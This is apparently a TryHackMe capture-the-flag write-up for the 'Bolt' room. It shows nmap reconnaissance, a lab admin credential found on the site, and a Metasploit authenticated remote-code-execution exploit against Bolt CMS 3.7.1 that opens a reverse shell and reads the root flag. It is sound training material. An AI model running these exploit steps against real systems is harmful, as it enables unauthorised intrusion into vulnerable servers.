

# Bolt


## Intro

| Room Info           |            |
| :------------------ | --------------------------------------- |
| 🔗 Name              | [Bolt](https://tryhackme.com/room/bolt) |
| 🎯 Target IP         | `10.10.218.91`                          |
| 📈 Difficulty level  | 🟢Easy                                   |
| 💲 Subscription type | Free                                    |
| 🐧 OS                | Linux                                   |

---

## Recon

```bash
su
echo "10.10.218.91 bolt.thm" >> /etc/hosts

# At the end of the room
# To clean up the last line from the /etc/hosts file
sed -i '$ d' /etc/hosts
```

Start Reconnaissance

```bash
mkdir thm/bolt
cd thm/bolt
nmap bolt.thm
    22/tcp   open  ssh
    80/tcp   open  http
    8000/tcp open  http-alt

nmap -sV -sC -Pn -oA bolt bolt.thm
```

```bash
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f385ec54f201b19440de42e821972080 (RSA)
|   256 77c7c1ae314121e4930e9add0b29e1ff (ECDSA)
|_  256 070543469db23ef04d6967e491d3d37f (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
8000/tcp open  http    (PHP 7.2.32-1)
|_http-generator: Bolt
|_http-title: Bolt | A hero is unleashed
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 Not Found
|     Date: Mon, 15 May 2023 17:35:38 GMT
|     Connection: close
|     X-Powered-By: PHP/7.2.32-1+ubuntu18.04.1+deb.sury.org+1
|     Cache-Control: private, must-revalidate
|     Date: Mon, 15 May 2023 17:35:38 GMT
|     Content-Type: text/html; charset=UTF-8
|     pragma: no-cache
|     expires: -1
|     X-Debug-Token: 48ed6c
|     <!doctype html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Bolt | A hero is unleashed</title>
|     <link href="https://fonts.googleapis.com/css?family=Bitter|Roboto:400,400i,700" rel="stylesheet">
|     <link rel="stylesheet" href="/theme/base-2018/css/bulma.css?8ca0842ebb">
|     <link rel="stylesheet" href="/theme/base-2018/css/theme.css?6cb66bfe9f">
|     <meta name="generator" content="Bolt">
|     </head>
|     <body>
|     href="#main-content" class="vis
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Date: Mon, 15 May 2023 17:35:37 GMT
|     Connection: close
|     X-Powered-By: PHP/7.2.32-1+ubuntu18.04.1+deb.sury.org+1
|     Cache-Control: public, s-maxage=600
|     Date: Mon, 15 May 2023 17:35:37 GMT
|     Content-Type: text/html; charset=UTF-8
|     X-Debug-Token: 1f990b
|     <!doctype html>
|     <html lang="en-GB">
|     <head>
|     <meta charset="utf-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Bolt | A hero is unleashed</title>
|     <link href="https://fonts.googleapis.com/css?family=Bitter|Roboto:400,400i,700" rel="stylesheet">
|     <link rel="stylesheet" href="/theme/base-2018/css/bulma.css?8ca0842ebb">
|     <link rel="stylesheet" href="/theme/base-2018/css/theme.css?6cb66bfe9f">
|     <meta name="generator" content="Bolt">
|     <link rel="canonical" href="http://0.0.0.0:8000/">
|     </head>
|_    <body class="front">
```

Enumerate the Bolt web application.


> 📌 `bolt`:`boltadmin123`

Find the Bolt CMS login page


Navigate to

- `http://bolt.thm:8000/bolt/login`
- and use the `bolt` credentials

Once logged in, the Bolt version is at the bottom of the page.

> 📌 `Bolt 3.7.1`

---

## Exploitation

```bash
searchsploit bolt 3.7 -w

# EDB-ID is 48296
```


Use Metasploit to exploit the [**`Authenticated Remote Code Execution`**](https://www.exploit-db.com/exploits/48296) Bolt vulnerability

```bash
msfconsole -q

setg RHOSTS bolt.thm
setg RHOST bolt.thm
search bolt
use exploit/unix/webapp/bolt_authenticated_rce
set LHOST tun0
set USERNAME bolt
set PASSWORD boltadmin123
run
```


```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'

find / -type f -name 'flag.txt' 2>/dev/null
cat /root/flag.txt
THM{w****************************
```



------

